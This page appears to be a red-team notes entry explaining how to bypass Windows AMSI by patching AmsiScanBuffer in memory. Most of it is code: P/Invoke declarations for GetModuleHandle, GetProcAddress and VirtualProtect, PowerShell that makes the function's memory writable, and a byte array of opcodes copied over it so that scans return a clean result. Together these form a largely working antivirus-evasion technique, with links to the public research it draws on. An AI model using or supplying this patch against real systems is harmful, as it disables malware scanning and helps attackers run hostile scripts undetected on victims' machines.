# Patching AMSI

AMSI is primarily instrumented and loaded from `amsi.dll`. This `dll` can be abused and forced to point to a specific 
response code. The `AmsiScanBuffer` function provides the hooks and functionality necessary to access the 
pointer/buffer for the response code.

`AmsiScanBuffer` is vulnerable because `amsi.dll` is loaded into the `PowerShell` process at startup. It will 
scan a "buffer" of suspected code and report it to `amsi.dll` to determine the response. This function can be 
controlled to overwrite the buffer with a clean return code.

At a high-level AMSI patching can be broken up into four steps:

* Obtain handle of `amsi.dll`
* Get process address of `AmsiScanBuffer`
* Modify memory protections of `AmsiScanBuffer`
* Write opcodes to `AmsiScanBuffer`

## Code

Load GetProcAddress, GetModuleHandle, and VirtualProtect from kernel32 using p/invoke:

```text
[DllImport(`"kernel32`")] // Import DLL where API call is stored
public static extern IntPtr GetProcAddress( // API Call to import
	IntPtr hModule, // Handle to DLL module
	string procName // function or variable to obtain
);

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(
	string lpModuleName // Module to obtain handle
);

[DllImport(`"kernel32`")]
public static extern bool VirtualProtect(
	IntPtr lpAddress, // Address of region to modify
	UIntPtr dwSize, // Size of region
	uint flNewProtect, // Memory protection options
	out uint lpflOldProtect // Pointer to store previous protection options
); 
```

Load the API calls using `Add-Type`. This cmdlet will load the functions with a proper type and namespace that will 
allow the functions to be called.

    $Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;

Identify the process handle of AMSI using `GetModuleHandle`. The handle will then be used to identify the process 
address of `AmsiScanBuffer` using `GetProcAddress`:

    $handle = [Win32.Kernel32]::GetModuleHandle(
        'amsi.dll' // Obtains handle to amsi.dll
    );
    [IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
        $handle, // Handle of amsi.dll
        'AmsiScanBuffer' // API call to obtain
    ); 

Modify the memory protection of the `AmsiScanBuffer` process region. Specify parameters and the buffer address for 
`VirtualProtect`:

```text
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
);
```

Specify what to overwrite the buffer with:

```text
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
);
```

## Resources

* [The Rise and Fall of AMSI - Black Hat Briefings](https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf)
* [Rasta Mouse: Memory Patching AMSI Bypass](https://rastamouse.me/memory-patching-amsi-bypass/)
* [rasta-mouse/AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)
* [Marshal.Copy Method](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-6.0)
* [Platform Invoke (P/Invoke)](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke)
* [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)
* [GetModuleHandle](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)
* [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

